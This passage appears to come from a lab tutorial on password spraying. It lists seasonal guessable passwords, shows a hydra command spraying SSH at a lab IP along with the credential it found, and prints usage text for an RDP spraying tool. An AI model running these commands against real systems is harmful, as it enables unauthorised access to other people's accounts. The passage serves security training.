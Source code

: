 If a password complexity policy is enforced within the organization, we may need to create a password that includes symbols to fulfill the requirement, such as October2021!, Spring2021!, October2021@, etc. **To be successful in the password spraying attack, we need to enumerate the target and create a list of valid usernames (or email addresses list)**.

Next, we will apply the password spraying technique using different scenarios against various services, including:

* SSH
* RDP
* Outlook web access (OWA) portal
* SMB

#### SSH

Assume that we have already enumerated the system and created a valid username list.

Hashcat

```shell-session
user@THM:~# cat usernames-list.txt
admin
victim
dummy
adm
sammy
```

Here we can use hydra to perform the password spraying attack against the SSH service using the Spring2021 password.

Hashcat

```shell-session
user@THM:~$ hydra -L usernames-list.txt -p Spring2021 ssh://10.1.1.10
[INFO] Successful, password authentication is supported by ssh://10.1.1.10:22
[22][ssh] host: 10.1.1.10 login: victim password: Spring2021
[STATUS] attack finished for 10.1.1.10 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```

Note that L is to load the list of valid usernames, and -p uses the Spring2021 password against the SSH service at 10.1.1.10. The above output shows that we have successfully found credentials.

#### RDP

Let's assume that we found an exposed RDP service on port 3026. We can use a tool such as [RDPassSpray](https://github.com/xFreed0m/RDPassSpray) to password spray against RDP. First, install the tool on your attacking machine by following the installation instructions in the tool’s GitHub repo. As a new user of this tool, we will start by executing the python3 RDPassSpray.py -h command to see how the tools can be used:

Hashcat

```shell-session
user@THM:~# python3 RDPassSpray.py -h
usage: RDPassSpray.py [-h] (-U USERLIST | -u USER  -p PASSWORD | -P PASSWORDLIST) (-T TARGETLIST | -t TARGET) [-s SLEEP | -r minimum_sleep maximum_sleep] [-d DOMAIN] [-n NAMES] [-o OUTPUT] [-V]

optional arguments:
  -h, --help            show this help message and exit
  -U USERLIST, --userlist USERLIST
                        Users list to use, one user per line
  -u USER, --user USER  Single user to use
  -p PASSWORD, --password PASSWORD
                        Single password to use
  -P PASSWORDLIST, --passwordlist PASSWORDLIST
                        Password list to use, one password per line
  -T TARGETLIST, --targetlist TARGETLIST
                        Targets list to use, one target per line
```